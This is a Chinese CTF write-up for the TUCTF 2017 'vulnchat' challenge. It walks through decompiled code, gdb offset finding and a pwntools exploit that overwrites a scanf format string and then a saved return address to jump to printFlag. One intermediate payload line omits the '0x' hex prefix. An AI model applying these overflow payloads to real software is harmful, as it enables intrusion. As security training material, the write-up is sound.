

# 2.5 tuctf 2017 vulnchat
首先查看程序安全机制


运行程序


程序有两个输入点，使用IDA查看代码

main函数

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[20]; // [esp+3h] [ebp-2Dh] BYREF
  char v5[20]; // [esp+17h] [ebp-19h] BYREF
  char var5[9]; // [esp+2Bh] [ebp-5h] BYREF

  setvbuf(stdout, 0, 2, 0x14u);
  puts("----------- Welcome to vuln-chat -------------");
  printf("Enter your username: ");
  strcpy(var5, "%30s");
  __isoc99_scanf(var5, v5);
  printf("Welcome %s!\n", v5);
  puts("Connecting to 'djinn'");
  sleep(1u);
  puts("--- 'djinn' has joined your chat ---");
  puts("djinn: I have the information. But how do I know I can trust you?");
  printf("%s: ", v5);
  __isoc99_scanf(var5, v4);
  puts("djinn: Sorry. That's not good enough");
  fflush(stdout);
  return 0;
}
```
printFlag函数


从main函数可以看出，var5的值为%30s，所以在接下来的两次scanf中，都只接收30个字符串。现在我们看看输入点v5和输入点v4与eip直接的差值为多少。在IDA中，我们可以看到v4对应var\_2D, v5对应var\_19，从调用约定上来看，我们可以算出v4到eip的距离为0x2d+4 = 49, v5到eip为0x19+4 = 29，而我们的输入点限制了长度为30，无法完整的覆盖eip。


不过这里我们可以看到var5的到v5直接的距离为0x19 - 0x5 = 20，那么我们可以把var5的值覆盖掉，改成%99s，这样后面v4的输入限制就会从30变成了99，就能够覆盖eip，执行我们要执行的函数printFlag了。


所以第一段的payload如下：

```python
'a' * 0x14 + '%99s'
```
接着我们要找到v4变量到EIP之间的字节数，使用gdb进行分析

断点设置如下：

```cpp
gef➤  b *(main +178)
```
允许程序，第一次输入 abcd，第二次输入10个0

```cpp
gef➤  r
Starting program: /home/vuln/nightmare/modules/05-bof_callfunction/tu17_vulnchat/vuln-chat 
----------- Welcome to vuln-chat -------------
Enter your username: abcd
Welcome abcd!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
abcd: 0000000000
```
接着我们在内存中查找输入的10个0，然后查看此时的栈帧情况


从上面的信息可以看出，两者相差了49个字节，所以第二段的payload如下：

```python
# printFlag address 0x804856B
'A' * 49 + p32(804856B)
```
最终exploit

```python
#!/usr/bin/python

from pwn import *

p1 = ''
p1 += 'A' * 0x14
p1 += '%99s'

target = process('./vuln-chat')

target.recvuntil('username:')
target.sendline(p1)

target.recvuntil(p1+':')
p2 = ''
p2 += 'A' * 49
p2 += p32(0x804856B)
target.sendline(p2)

target.interactive()
```
